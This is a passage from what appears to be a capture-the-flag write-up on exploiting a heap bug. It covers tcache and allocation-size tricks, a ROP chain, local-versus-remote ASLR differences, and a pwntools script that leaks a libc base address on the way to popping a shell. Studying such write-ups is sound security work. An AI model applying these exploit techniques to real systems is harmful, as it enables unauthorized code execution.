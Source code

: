 - The top 16 bits of any pointer are zero.
- malloc's minimum allocation size is 0x20 bytes.
- The allocation size is input in hex, so any single-character input results in an allocation size of 0x20 (a valid hex character rounds up, and strtol returns 0 for an invalid hex character)

If we ensure that the `tcache[0x20]` bin contains a valid stack pointer, then for our last write to trigger the ROP chain, we can specify an allocation size equal to the three top bytes of the gadget we want to store at the location overlapping the buffer:

```
+----------------------------+
| return address from read() |
+----------------+---------- +
| xx xx xx xx xx | ss 00 00  |
+----------------+-----------+
                 ^--- user input buffer for allocation size
```

My first attempt was to create a onegadget by partially overwriting a libc pointer located further down the stack. This worked fine locally (with a although it needed to bruteforce some of ASLR); but it succeeded in popping a shell within a few minutes of attempts on my machine. Remote is much slower; it takes 10-20 seconds to perform the attack on a remote machine vs. a fraction of a second locally, so it was several hours before I realized ASLR behavior was different: running locally, libc's base address was always aligned to 22 bits, but when I finally bothered figuring out how to attach gdb to the Docker image I found it was only aligned to one page.

So, I needed to revise my approach. I know where I can find libc pointers in the heap, so I used a `pop rbx` gadget in the binary, combined with the `write()` gadget used earlier, to leak a pointer to libc:

```python
# Go to return address
p.send(b"b8")
p.send(b"\x00" * offset)

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, write some ret gadgets
ret = bin_base + 0x11f8
for i in range(20):
    p.send(p64(ret))

libcleak = heap_base + 0x1fdf98
pop_rbx = bin_base + 0x12c2
p.send(p64(pop_rbx))
p.send(p64(libcleak))
p.send(p64(libcleak))
writegadget = bin_base + 0x111f
p.send(p64(writegadget))
p.send(b'\n')

# Go back to return address
p.send(p16((ret >> 40)))
p.send(b'\x00' * offset)
p.send(b'\xf8')

p.recvuntil(b'p')
libc_base = u64(b'p' + p.recv(7)) - 0x203b70

print("libc:", hex(libc_base))
```
